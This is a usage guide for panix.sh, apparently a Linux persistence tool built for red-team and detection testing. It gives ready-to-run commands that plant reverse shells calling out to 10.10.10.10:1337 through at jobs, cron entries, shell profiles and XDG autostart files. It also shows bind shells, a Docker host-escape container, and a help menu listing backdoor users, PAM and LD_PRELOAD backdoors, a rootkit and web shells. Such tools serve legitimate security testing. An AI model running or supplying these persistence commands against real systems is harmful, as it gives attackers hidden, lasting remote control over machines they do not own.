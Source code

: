 # Panix.sh Usage Examples

This document provides examples of how to use panix.sh for various tasks.

## Normal User

### Reverse Shell


To execute a basic reverse shell:

```sh
./panix.sh --reverse-shell --ip <ip> --port <port>
```

--- 

### At Job Persistence

Schedule a one-time command to be executed at a specific time.

``Example:`` Execute a reverse shell in one minute.

```sh
./panix.sh --at --custom --command "/bin/bash -c 'sh -i >& /dev/tcp/10.10.10.10/1337 0>&1'" --time "now + 1 minute"
```
--- 

### Cron Job Persistence

Create a cron job to establish persistence.

- Default Cron Job

This creates a default cron job for a reverse shell.
```sh
./panix.sh --cron --default --ip 10.10.10.10 --port 1337
```

- Custom Cron Jobs

Using timing flags (--daily, --hourly, etc.):

```sh
sudo ./panix.sh --cron --custom --command "/bin/bash -c 'sh -i >& /dev/tcp/10.10.10.10/1337 0>&1'" --daily --name "evil_cron_job"
```

Adding to /etc/cron.d/:
```sh
sudo ./panix.sh --cron --custom --command "* * * * * root /bin/bash -c 'sh -i >& /dev/tcp/10.10.10.10/1337 0>&1'" --crond --name "evil_cron_job"
```

Adding to the user's crontab:

```sh
sudo ./panix.sh --cron --custom --command "* * * * * /bin/bash -c 'sh -i >& /dev/tcp/10.10.10.10/1337 0>&1'" --crontab
```

--- 

### Shell Profile Persistence

Add a command to a shell profile script (e.g., .bashrc, .zshrc) for execution on shell startup.

- Default

```sh
./panix.sh --shell-profile --default --ip 10.10.10.10 --port 1337
```

- Custom

```sh
sudo ./panix.sh --shell-profile --custom --command "(nohup bash -i > /dev/tcp/10.10.10.10/1337 0<&1 2>&1 &)" --path "/root/.bash_profile"
```

--- 

### XDG Autostart Persistence

Create a .desktop file in an XDG autostart directory to execute a command on desktop environment login.

- Default

```sh
./panix.sh --xdg --default --ip 10.10.10.10 --port 1337
```

- Custom

sudo ./panix.sh --xdg --custom --command "/bin/bash -c 'sh -i >& /dev/tcp/10.10.10.10/1337 0>&1'" --path "/etc/xdg/autostart/evilxdg.desktop"

--- 

### Bind Shell

Execute a backgrounded bind shell for incoming connections.

- Using Shellcode (x86):

```sh
sudo ./panix.sh --bind-shell --default --shellcode --architecture x86
```

- Using LOLBins (nc):

```sh
sudo ./panix.sh --bind-shell --default --lolbin --nc --port 1337
```

--- 

### Docker Container with Host Escape

Run a Docker container configured to escape to the host and execute a reverse shell.

```sh
sudo ./panix.sh --malicious-container --default --ip 10.10.10.10 --port 1337
```

--- 

## ROOT

```sh
┌──(mrfa3i㉿PwnSec)-[~/Downloads]
└─$ sudo ./panix.sh  -h                 

Root User Options:

  --at                   At job persistence
  --authorized-keys      Add public key to authorized keys
  --backdoor-user        Create backdoor user
  --backdoor-system-user Create backdoor system user
  --bind-shell           Execute backgrounded bind shell (supports multiple LOLBins)
  --cap                  Add capabilities persistence
  --create-user          Create a new user
  --cron                 Cron job persistence
  --dbus                 D-Bus service persistence
  --generator            Generator persistence
  --git                  Git hook/pager persistence
  --grub                 GRUB bootloader persistence
  --initd                SysV Init (init.d) persistence
  --initramfs            Initramfs persistence
  --ld-preload           LD_PRELOAD backdoor persistence
  --lkm                  Loadable Kernel Module (LKM) persistence
  --malicious-container  Docker container with host escape
  --malicious-package    Build and Install a package for persistence (DPKG/RPM)
  --motd                 Message Of The Day (MOTD) persistence (not available on RHEL derivatives)
  --network-manager      NetworkManager dispatcher script persistence
  --package-manager      Package Manager persistence (APT/YUM/DNF)
  --pam                  Pluggable Authentication Module (PAM) persistence (backdoored PAM & pam_exec)
  --passwd-user          Add user to /etc/passwd directly
  --password-change      Change user password
  --polkit               Allow pkexec as any user through Polkit
  --rc-local             Run Control (rc.local) persistence
  --reverse-shell        Reverse shell persistence (supports multiple LOLBins)
  --rootkit              Diamorphine (LKM) rootkit persistence
  --shell-profile        Shell profile persistence
  --ssh-key              SSH key persistence
  --sudoers              Sudoers persistence
  --suid                 SUID persistence
  --system-binary        System binary persistence
  --systemd              Systemd service persistence
  --udev                 Udev (driver) persistence
  --web-shell            Web shell persistence (PHP/Python)
  --xdg                  XDG autostart persistence
  --revert               Revert most changes made by PANIX' default options
  --mitre-matrix         Display the MITRE ATT&CK Matrix for PANIX
  --quiet (-q)           Quiet mode (no banner)
```
